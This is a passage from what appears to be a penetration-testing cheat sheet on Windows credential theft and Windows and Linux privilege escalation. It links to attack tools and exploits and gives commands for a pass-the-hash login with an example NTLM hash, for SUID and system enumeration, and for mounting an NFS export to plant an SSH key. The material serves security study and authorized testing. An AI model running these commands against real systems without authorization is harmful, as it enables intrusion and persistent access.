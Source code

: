 
    * Windows Credentials Editor (http://www.ampliasecurity.com/research/windows-credentials-editor)
    * Pass-The-Hash (https://www.hacking-lab.com/misc/downloads/event_2010/daniel_stirnimann_pass_the_hash_attack.pdf)
        + incognito (https://labs.mwrinfosecurity.com/tools/incognito/)
        + https://github.com/PowerShellMafia/PowerSploit
        ```
        export SMBHASH=aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896
        pth-winexe -U administrator% //10.11.01.76 cmd
        ```
    * [sysret](https://pentestlab.blog/2017/06/14/intel-sysret/)
    * rotten potato (https://github.com/breenmachine/RottenPotatoNG)
        + from network/admin service to SYSTEM
    * hot potato (https://github.com/foxglovesec/Potato)


#### #Privilege escalation - linux
    * sudo -l / sudo -e
    * CVE-2015-5602 (https://www.exploit-db.com/exploits/37710/)
        * when sudoedit have two * in path
    * suid-debug and MALLOC_CHECK_ envvar
    * setuid
        ```
        find / -perm -6000 2>/dev/null
        find / -perm -1000 -type d 2>/dev/null   # Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.
        find / -perm -g=s -type f 2>/dev/null    # SGID (chmod 2000) - run as the group, not the user who started it.
        find / -perm -u=s -type f 2>/dev/null    # SUID (chmod 4000) - run as the owner, not the user who started it.
        /usr/bin/find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \\; 2>/dev/null
        ```
    * enum
        ```
        uname -a
        netstat -tulpn
        ps aux | grep root
        find / -writable -type d 2>/dev/null      # world-writeable folders
        ```
    * NFS server
        * mout root
            ```
            # apt install nfs-common
            rpcinfo -p $ip  # list
            showmount -e $ip  # export list, check if / is accessible
            mount -o nolock -t nfs $ip:/ /tmp/nfs
            # now add ssh key to authorized_keys or whatever
            ```
        * edit /etc/exports and reboot
